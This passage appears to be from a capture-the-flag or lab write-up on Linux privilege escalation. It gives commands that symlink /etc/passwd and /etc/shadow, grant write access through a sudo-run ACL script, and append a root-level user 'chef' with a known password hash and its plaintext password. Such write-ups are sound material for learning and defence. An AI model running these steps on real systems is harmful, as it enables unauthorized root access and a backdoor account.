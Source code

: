    ```bash
   ln -s /etc/passwd /home/mtz/passwd
   ln -s /etc/shadow /home/mtz/shadow
2. **Modify Permissions**:

- Use `/opt/acl.sh` to grant `mtz` write permissions to the symbolic links.

  ```bash
  sudo /opt/acl.sh mtz rwx /home/mtz/passwd
  sudo /opt/acl.sh mtz rwx /home/mtz/shadow
`
  ### Update `passwd` and `shadow` Files

- Edit the `/home/mtz/passwd` and `/home/mtz/shadow` files to add a new root user with a known password hash.generate your own
- password hash with openssl and if you want to use mine the pasword is 'naruto'

  ```bash
  echo 'chef:x:0:0:root:/root:/bin/bash' >> /home/mtz/passwd
  echo 'chef:$6$m.8UCPi1Mj9FRFMK$OR6ubVYKZzE9UFiGm4ahw0t680nd5m//Wj55/0apx9NjfyOML8bvTi19Bh7JfAEW0wm59BE5dp17VrKpu8UCI0:19742:0:99999:7:::' >> /home/mtz/shadow
`
switch to the new user 'chef' and youre root
i also wrote a script that does the escalation from mtz to root easily check the folder


